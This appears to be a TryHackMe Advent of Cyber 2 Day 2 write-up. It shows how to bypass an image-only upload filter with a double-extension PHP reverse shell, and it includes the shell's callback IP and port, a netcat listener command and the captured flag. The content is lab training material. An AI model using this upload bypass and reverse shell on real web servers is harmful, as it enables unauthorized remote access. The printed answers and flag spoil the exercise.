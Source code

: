 ```yaml
---
layout: post
title: AdventOfCyber2 Day 2
categories: [Write-Ups, AdventOfCyber2]
tags: [TryHackMe, AdventOfCyber2]
featured-image:  adventOfCyber2/icon.png
featured-image-alt: adventOfCyber2
---
```


It's a write-up about the room : [Try Hack Me - Room : AdventOfCyber2](https://tryhackme.com/room/adventofcyber2)

# Day 2 : The Elf Strikes Back !

```
At the bottom of the dossier is a sticky note containing the following 
message:

    For Elf McEager:
    You have been assigned an ID number for your audit of the system: 
	ODIzODI5MTNiYmYw . Use this to gain access to the upload section of 
	the site.
    Good luck!
```

We deploy the machine, obtain the IP address : `10.10.4.190`

## What string of text needs adding to the URL to get access to the upload page?

We navigate tot the displayed IP address inn our browser and access to the upload page by adding this string to the URL : 
`/?id=ODIzODI5MTNiYmYw` because our ID is ODIzODI5MTNiYmYw.

## What type of file is accepted by the site? 
`<input type="file" id="chooseFile" accept=".jpeg,.jpg,.png">`
**image**

## Now we have to bypass the filter and upload a reverse shell.

* In which directory are the uploaded files stored?

We use the file **php-reverse-shell.php** and rename it **php-reverse-shell.jpeg.php**.
In this one, we put our IP OpenVPN address and the port where we want to listen : 
```
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.8.87.25';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

We submit it in the website, and go on `http://10.10.4.190/uploads/` and find our file.  
So the uploaded files are stored in **/uploads/**.

## What is the flag in /var/www/flag.txt?

We listen our port with the command : `sudo nc -lvnp 443`
We launch our file in the directory `/uploads/` on the website. 
We can now execute shell command, so we do that below to find the flag : 

```
sh-4.4$ cat /var/www/flag.txt  
cat /var/www/flag.txt


==============================================================


You've reached the end of the Advent of Cyber, Day 2 -- hopefully you're enjoying yourself so far, and are learning lots! 
This is all from me, so I'm going to take the chance to thank the awesome @Vargnaar for his invaluable design lessons, without which the theming of the past two websites simply would not be the same. 


Have a flag -- you deserve it!
THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}


Good luck on your mission (and maybe I'll see y'all again on Christmas Eve)!
 --Muiri (@MuirlandOracle)


==============================================================
```

The flag is **THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}**.